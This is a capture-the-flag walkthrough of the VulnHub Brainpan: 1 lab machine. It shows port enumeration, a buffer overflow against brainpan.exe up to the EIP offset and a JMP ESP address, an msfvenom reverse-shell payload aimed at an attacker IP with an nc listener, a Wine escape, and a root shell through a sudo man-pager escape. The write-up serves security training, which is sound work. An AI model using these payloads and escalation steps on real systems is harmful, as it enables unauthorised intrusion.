



# VulnHub Brainpan: 1

> Author: Hades - [LeeCyberSec](https://leecybersec.com)

> [*Scripting here*](https://github.com/leecybersec/scripting)

## VM Details

|**Name**|Brainpan: 1|
|---|---|
|**Date release**|20 Mar 2013|
|**Author**|[superkojiman](https://www.vulnhub.com/author/superkojiman,43/)|
|**Series**|[Brainpan](https://www.vulnhub.com/series/brainpan,32/)|
|**Web page**|[brainpan-hacking-challenge](http://blog.techorganic.com/2013/03/brainpan-hacking-challenge.html)|

## Information Gathering

### Open Services

To scan all open ports in Brainpan I run nmap with `-p-` options and enum service at each port.

``` txt
┌──(Hades㉿192.168.11.140)-[0.6:20.4]~/scripting
└─$ sudo ./enum/all.sh 192.168.11.144                                                                                                                                   1 ⨯
[sudo] password for kali: 

### Port Scanning ############################
nmap -sS -p- --min-rate 1000 192.168.11.144 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 9999,10000

### Services Enumeration ############################
nmap -sC -sV -Pn 192.168.11.144 -p9999,10000

<snip>

PORT      STATE SERVICE VERSION
9999/tcp  open  abyss?
| fingerprint-strings: 
|   NULL: 
|     _| _| 
|     _|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_| 
|     _|_| _| _| _| _| _| _| _| _| _| _| _|
|     _|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|
|     [________________________ WELCOME TO BRAINPAN _________________________]
|_    ENTER THE PASSWORD
10000/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.3)
|_http-server-header: SimpleHTTP/0.6 Python/2.7.3
|_http-title: Site doesn't have a title (text/html).

<snip>

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.08 seconds
```

### Port 9999

This side require a password to access, I guessed some password and it return `access denied`.


### Port 10000

This side look like a normal website may have a listing of the hidden directories.


Discovery port 10000 with gobuster and I saw the special uri "/bin".

``` txt
┌──(Hades㉿192.168.11.140)-[0.6:20.9]~/scripting
└─$ sudo ./enum/services.sh 192.168.11.144 10000 http

### Web Enumeration (10000) ############################

[+] Files and directories
gobuster dir -k -u http://192.168.11.144:10000 -w /usr/share/seclists/Discovery/Web-Content/common.txt

<snip>
===============================================================
/bin                  (Status: 301) [Size: 0] [--> /bin/]
/index.html           (Status: 200) [Size: 215]          
                                                         
===============================================================
<snip>

[+] All URLs
```


## Foothold

### Buffer Overflow

Download "brainpan.exe" and view the function in the application using `strings`.

``` txt
┌──(Hades㉿192.168.11.140)-[0.6:20.8]~/Downloads
└─$ strings brainpan.exe
<snip>
printf
signal
strcmp
strcpy
strlen
<snip>
```

> [Buffer Overflow Attack](https://web.ecs.syr.edu/~wedu/seed/Book/book_sample_buffer.pdf): [Page 7] The **strcpy**() function does not stop until it sees a zero (a number zero, '<0') in the source string. Since the source string is longer than 12 bytes, **strcpy**() will overwrite some portion of the **stack** above the **buffer**. This is called **buffer overflow**.

### Fuzzing

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/vulnhub/brainpan-1)

``` bash
┌──(Hades㉿192.168.11.140)-[0.5:20.6]~/walkthrough/vulnhub/brainpan-1
└─$ python fuzzer.py 192.168.11.135
```

Client Machine


### Control EIP

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/vulnhub/brainpan-1)

Create pattern, add it to `buffer` payload and sent.

``` txt
msf-pattern_create -l 1000
```

``` txt
┌──(Hades㉿192.168.11.140)-[0.5:20.3]~/walkthrough/vulnhub/brainpan-1
└─$ python eip-finder.py 192.168.11.135
```

Client Machine


Identify the offset

``` bash
msf-pattern_offset -q 35724134
[*] Exact match at offset 524
```

### Bad Characters

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/vulnhub/brainpan-1)

``` txt
┌──(Hades㉿192.168.11.140)-[0.6:20.3]~/walkthrough/vulnhub/brainpan-1
└─$ python badchars.py 192.168.11.135
```

Client Machine


After review the ESP data, there is only `\x00` bad characters need to encode.

### JMP ESP

<a href='https://github.com/corelan/mona' target="blank">Import mona in Immunity Debugger</a>

Let's check modules of the process. I saw that the Modules address of brainpan.exe in range [0x3117000:0x3117600]

``` python
!mona modules
```


Find the "JMP ESP" code address and confirm it in the application. The return address `\x311712f3`

``` python
!mona find -s "\\xff\\xe4"
```




### Reverse Shell

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/vulnhub/brainpan-1)

Create shellcode with msfvenom

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.11.140 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "x00"
```

Open listener in Kali machine

``` bash
sudo nc -nvlp 443
```

Execute `poc.py` file

``` txt
┌──(Hades㉿192.168.11.140)-[0.6:20.8]~/walkthrough/vulnhub/brainpan-1
└─$ python poc.py 192.168.11.135
```



Back to the Brainpan Server, and execute `poc.py`.



## Privilege Escalation

### Escape wine to get user

At the punk folder, I saw a script named `checksrv.sh`


``` txt
Z:\home\puck>type checksrv.sh                                                                                                                                               
#!/bin/bash                                                                                                                                                                 
# run brainpan.exe if it stops                                                                                                                                              
<snip>
        cd /home/puck/web
        /usr/bin/python -m SimpleHTTPServer 10000
fi
```

Python was installed in the Unix machine with full path "/usr/bin/python".

Let's create a bash shell with python to access to Unix machine.

``` bash
Z:\home\puck>/usr/bin/python -c "import pty; pty.spawn('/bin/bash')"

puck@brainpan:~$ id
id
uid=1002(puck) gid=1002(puck) groups=1002(puck)
puck@brainpan:~$ whoami
whoami
puck
puck@brainpan:~$ pwd
pwd
/home/puck
puck@brainpan:~$
```

### Kernel check

Check the OS and version

``` bash
puck@brainpan:~$ lsb_release -a
lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 12.10
Release:        12.10
Codename:       quantal
puck@brainpan:~$
```

The version of Ubuntu machine is 12.10, let's check with searchsploit


We may exploit kernel to get root, but I am not refer this step. Let's enum more!

### Sudo access

``` bash
sudo -l
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
puck@brainpan:~$
```

The application `/home/anansi/bin/anansi_util` allow us run it with root permission.

``` bash
puck@brainpan:~$ sudo /home/anansi/bin/anansi_util       
sudo /home/anansi/bin/anansi_util
Usage: /home/anansi/bin/anansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
```

Let's run this app and check how it work.

``` bash
puck@brainpan:~$ sudo /home/anansi/bin/anansi_util manual whoami
sudo /home/anansi/bin/anansi_util manual whoami
No manual entry for manual
WARNING: terminal is not fully functional
-  (press RETURN)  
WHOAMI(1)                        User Commands                       WHOAMI(1)
<snip>
       GNU coreutils home page: <http://www.gnu.org/software/coreutils/>
 Manual page whoami(1) line 1 (press h for help or q to quit)
```

In here, after quit the main page, we can execute `!/bin/bash` to run shell within the privilege.

``` bash
AUTHOR
       Written by Richard Mlynarik.

REPORTING BUGS
       Report whoami bugs to bug-coreutils@gnu.org
       GNU coreutils home page: <http://www.gnu.org/software/coreutils/>
 Manual page whoami(1) line 1 (press h for help or q to quit)!/bin/bash
!/bin/bash                                                                                                                                                                 
root@brainpan:/usr/share/man# whoami                                                                                                                                       
whoami                                                                                                                                                                     
root                                                                                                                                                                       
root@brainpan:/usr/share/man# 
```